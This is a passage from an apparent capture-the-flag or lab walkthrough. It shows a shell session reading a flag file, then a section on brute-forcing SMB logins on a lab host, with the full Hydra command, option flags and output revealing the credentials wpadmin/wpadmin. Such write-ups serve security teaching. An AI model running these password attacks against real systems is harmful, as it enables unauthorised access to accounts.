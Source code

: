```
New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Jul 12 15:42:03 2017
$ pwd
/home/wpadmin
$ ls -la
total 12
drwxr-xr-x 2 root    root    4096 Oct 22  2016 .
drwxr-xr-x 3 root    root    4096 Oct 24  2016 ..
-rw-r--r-- 1 wpadmin wpadmin   33 Oct 22  2016 flag.txt
$ cat flag.txt
2bafe61f03117ac66a73c3c514de796e
$ 
```

First of three flags obtained.

## Brute Force Authentication

With SMB running, we can also attempt to brute force credentials. This is a noisy approach, and really could be attempted against SSH as well. For Hydra, we configure our attack:

  -L = User list
  -P = Password list
  -e = Extra password checks:
      n = NULL password check, 
      s = Try username as password,
      r = Reverse username
  -t = Threads

```
# hydra -L users.txt -P /opt/betterdefaultpasslist/ssh.txt -e nsr -t 16 192.168.1.25 smb
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-07-12 20:41:50
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 64 tasks, 136 login tries (l:2/p:68), ~2 tries per task
[DATA] attacking service smb on port 445
[445][smb] host: 192.168.1.25   login: wpadmin   password: wpadmin
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-07-12 20:41:51
```
